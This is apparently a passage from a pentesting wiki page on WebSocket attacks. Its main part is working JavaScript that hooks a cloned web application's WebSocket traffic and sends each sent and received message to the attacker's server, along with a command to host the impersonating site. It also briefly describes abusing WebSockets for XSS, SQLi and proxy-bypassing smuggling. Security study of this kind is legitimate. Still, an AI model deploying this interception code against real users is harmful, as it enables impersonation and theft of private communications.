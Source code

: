 ### Stealing data from user

Copy the web application you want to impersonate (the .html files for example) and inside the script where the websocket communication is occurring add this code:

```javascript
//This is the script tag to load the websocket hooker
<script src='wsHook.js'></script>

//These are the functions that are gonig to be executed before a message
//is sent by the client or received from the server
//These code must be between some <script> tags or inside a .js file
wsHook.before = function(data, url) {
    var xhttp = new XMLHttpRequest();
    xhttp.open("GET", "client_msg?m="+data, true);
    xhttp.send();
}
wsHook.after = function(messageEvent, url, wsObject) {
    var xhttp = new XMLHttpRequest();
    xhttp.open("GET", "server_msg?m="+messageEvent.data, true);
    xhttp.send();
    return messageEvent;
}
```

Now download the `wsHook.js` file from [https://github.com/skepticfx/wshook](https://github.com/skepticfx/wshook) and **save it inside the folder with the web files**.\
Exposing the web application and making a user connect to it you will be able to steal the sent and received messages via websocket:

```javascript
sudo python3 -m http.server 80
```

## Other vulnerabilities

As Web Sockets are a mechanism to **send data to server side and client side**, depending on how the server and client handles the information, **Web Sockets can be used to exploit several other vulnerabilities like XSS, SQLi or any other common web vuln using input of s user from a websocket.**

## **WebSocket Smuggling**

This vulnerability could allow you to **bypass reverse proxies restrictions** by making them believe that a **websocket communication was stablished** (even if it isn't true). This could allow an attacker to **access hidden endpoints**. For more information check the following page:

{% content-ref url="h2c-smuggling.md" %}
[h2c-smuggling.md](h2c-smuggling.md)
{% endcontent-ref %}

## References

{% embed url="https://portswigger.net/web-security/websockets#intercepting-and-modifying-websocket-messages" %}
